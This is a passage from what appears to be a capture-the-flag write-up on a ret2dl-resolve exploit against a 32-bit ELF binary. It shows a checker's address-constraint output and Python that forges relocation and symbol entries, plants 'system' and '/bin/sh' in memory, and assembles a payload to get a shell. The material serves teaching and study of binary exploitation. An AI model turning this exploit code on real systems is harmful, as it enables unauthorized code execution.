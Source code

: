 This gives us a set of inequalities that we can check for our
particular binary do have a solution: 

```
$ python ret2dl.py check
0x1d08 < reloc_idx < 0x2d08
0x1e3 < symbol_idx < 0x2e3
0x27a < symbol_idx < 0x628
0x80487b0 < link_map < 0x8048f0c
0x804a000 < name_addr < 0x804b000
0x804a000 < arg_addr < 0x804b000
0x1da4 < name_offset < 0x2da4
```

The only of these that even might go wrong is `symbol_idx`, since it
has to satisfy two inequalities, but these turn out to have a
solution, so we're OK.

## Exploitation

So we pick arbitrary values for each of these variables satisfying the
inequalities above and we're set

```
# Values from the binary: 

JMPREL=0x80482f8
SYMTAB=0x80481cc
VERSYM=0x80482bc
STRTAB=0x804825c

# Picking values that satisfy the inequalities: 

reloc_idx=0x2020
symbol_idx=0x2d0
link_map=0x80487f0
name_offset=0x1ecc
arg_addr = 0x804afc0
got_addr = 0x804a014

# Computing addresses to write to

reloc=JMPREL + reloc_idx
sym_addr=SYMTAB + 16*symbol_idx
name_addr=STRTAB + name_offset
reloc_val = (symbol_idx << 8) + 0x07

# Preparing all the writes we need to do

writes = {
    sym_addr:     name_offset.to_bytes(4,byteorder='little'),       # st_name = name offset
    sym_addr+0xd: int(0x0).to_bytes(1,byteorder='little'),  # st_other = 0x0
    reloc:        got_addr.to_bytes(4,byteorder='little'),  # r_address = GOT address to write
    reloc+4:      reloc_val.to_bytes(4,byteorder='little'), # r_info = symbol_offset:3, 0x7:1 
    name_addr:    bytes("system\x00",'ascii'),
    arg_addr:     bytes("/bin/sh\x00",'ascii')
}

# Writing the payload

payload = pad(20)
for x in sorted(writes.keys()):
    payload += write_bytes(x,writes[x])
```
